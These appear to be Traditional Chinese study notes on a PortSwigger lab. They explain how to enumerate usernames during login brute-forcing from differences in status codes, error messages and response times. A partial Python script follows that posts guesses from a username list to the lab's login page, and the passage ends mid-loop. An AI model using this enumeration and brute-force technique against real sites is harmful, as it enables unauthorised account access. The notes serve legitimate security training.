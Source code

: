 在嘗試暴力破解登錄頁面時，你應該特別注意以下方面的任何差異：

* **狀態碼**：在暴力破解攻擊期間，返回的 HTTP 狀態碼對於絕大多數猜測可能是相同的，因為大多數都是錯誤的。如果某個猜測返回不同的狀態碼，這強烈表明用戶名是正確的。網站的最佳做法是無論結果如何都始終返回相同的狀態碼，但這種做法並不總是被遵循。

* **錯誤訊息**：有時返回的錯誤訊息會根據用戶名和密碼是否都不正確，或者只有密碼不正確而有所不同。網站的最佳做法是在兩種情況下都使用相同的通用訊息，但有時會出現小的打字錯誤。即使在字符在渲染頁面上不可見的情況下，僅一個字符的位置錯誤就會使兩個訊息截然不同。

* **回應時間**：如果大多數請求都以相似的回應時間處理，任何偏離此時間的請求都表明幕後發生了不同的事情。這是猜測的用戶名可能正確的另一個指示。例如，網站可能只有在用戶名有效時才檢查密碼是否正確。這個額外步驟可能導致回應時間略微增加。這可能很微妙，但攻擊者可以透過輸入過長的密碼使網站需要明顯更長時間處理，從而使這種延遲更加明顯。

* **Lab: [Username enumeration via different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses)**
    1. 寫程式爆破帳號和密碼：
        ```python
        import requests

        def init():
            global cookies, headers, data
            cookies = {
                'session': 'H1Uhv8fuWXoes5VysCN1ORMv2Nc42qj9',
            }

            headers = {
                'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
                'accept-language': 'zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7',
                'cache-control': 'no-cache',
                'content-type': 'application/x-www-form-urlencoded',
                'dnt': '1',
                'origin': 'https://0a0c008d03de822e80d7fdae008d005f.web-security-academy.net',
                'pragma': 'no-cache',
                'priority': 'u=0, i',
                'referer': 'https://0a0c008d03de822e80d7fdae008d005f.web-security-academy.net/login',
                'sec-ch-ua': '"Not.A/Brand";v="99", "Chromium";v="136"',
                'sec-ch-ua-mobile': '?0',
                'sec-ch-ua-platform': '"macOS"',
                'sec-fetch-dest': 'document',
                'sec-fetch-mode': 'navigate',
                'sec-fetch-site': 'same-origin',
                'sec-fetch-user': '?1',
                'upgrade-insecure-requests': '1',
                'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36',
                # 'cookie': 'session=H1Uhv8fuWXoes5VysCN1ORMv2Nc42qj9',
            }

            data = {
                'username': '1322',
                'password': '123123',
            }

        def enum_username():
            with open('username.txt', 'r') as f:
                usernames = f.readlines()
                for i in usernames:
                    data = {
                        'username': i.strip(),
                        'password': '123',
                    }
